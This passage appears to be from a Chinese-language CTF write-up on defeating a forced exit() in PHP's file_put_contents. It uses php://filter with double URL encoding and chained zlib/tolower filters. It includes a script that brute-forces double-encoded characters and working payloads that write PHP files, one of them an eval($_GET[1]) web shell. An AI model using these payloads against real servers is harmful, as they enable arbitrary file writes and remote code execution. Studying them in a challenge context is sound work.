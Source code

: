 ```php
			}
		}
		if (write_chain) {
			if ((temp_filter = php_stream_filter_create(p, NULL, php_stream_is_persistent(stream)))) {
				php_stream_filter_append(&stream->writefilters, temp_filter);
			} else {
				php_error_docref(NULL, E_WARNING, "Unable to create filter (%s)", p);
			}
		}
		p = php_strtok_r(NULL, "|", &token);
	}
}
```

`file_put_contents` 中可以调用伪协议，而伪协议处理时会对过滤器 `urldecode` 一次，所以是可以利用二次编码绕过的，不过我们在服务端ban了%25（用%25太简单了）所以测试%25被ban后就可以写个脚本跑一下字符，构造一些过滤的字符就可以利用正常的姿势绕过。知道可以用二次编码绕过了.

```php
<?php
$char = 'r'; #构造r的二次编码
for ($ascii1 = 0; $ascii1 < 256; $ascii1++) {
	for ($ascii2 = 0; $ascii2 < 256; $ascii2++) {
		$aaa = '%'.$ascii1.'%'.$ascii2;
		if(urldecode(urldecode($aaa)) == $char){
			echo $char.': '.$aaa;
			echo "\n";
		}
	}
}
?>
```

payload:

	php://filter/write=string.%7%32ot13|<?cuc cucvasb();?>|/resource=Cyc1e.php


注：payload放过滤器的位置或者放文件名位置都可（因为有些编码有时候会有空格什么的乱码，文件名不一定好用），php://filter面对不可用的规则是报个Warning，然后跳过继续执行的）。


#### 过滤器构造绕过

题目中过滤的过滤器有

	/iconv|UCS|UTF|rot|quoted|base64/

php:filter支持使用多个过滤器,还留下了字符串过滤器中的部分和压缩过滤器以及加密过滤器.

 `zlib` 的 `zlib.deflate` 和 `zlib.inflate` ，组合使用压缩后再解压后内容肯定不变，不过我们可以在中间遍历一下剩下的几个过滤器，看看中间进行什么操作会影响后续 `inflate` 的内容，简单遍历一下可以发现中间插入 `string.tolower` 转后会把空格和 `exit` 处理了就可以绕过exit

	php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=shell.php


#### 爆破临时文件

